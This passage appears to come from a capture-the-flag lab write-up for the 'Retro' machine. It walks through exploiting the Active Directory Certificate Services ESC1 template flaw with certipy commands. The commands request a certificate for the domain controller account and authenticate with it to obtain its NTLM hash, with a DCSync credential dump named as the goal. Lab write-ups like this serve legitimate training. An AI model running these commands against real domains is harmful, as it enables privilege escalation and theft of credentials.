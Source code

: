 >In a vulnerable setup, an attacker with low-level access (like a regular user) could use this flaw to request a certificate that makes them look like a Domain Admin or another important user. They could then use this certificate to login as that higher-privileged user and gain unauthorized access.
{: .prompt-tip }

## Initial access

### Exploting ESC1

By default, the certificate request using this vulnerable template returns a `.pfx` file for the `DC$` account. This certificate can then be used to perform a `DCSync` attack against the domain controller itself allowing us to extract sensitive credentials like password hashes.

```powershell
certipy req -u 'BANKING$' -p 'Password123!' -dc-ip '10.10.79.94' -ca 'retro-DC-CA' -template 'RetroClients' -dns 'DC.retro.vl' -key-size 4096 -debug
```

![alt text](/assets/screenshots/Retro/19.png)

```powershell
certipy auth -pfx dc.pfx -domain retro.vl
```

This give use `NTLM` hash for `DC$`

![alt text](/assets/screenshots/Retro/20.png)

To confirm it works, we can use `netexec` with the `NT hash` obtained after authentication.
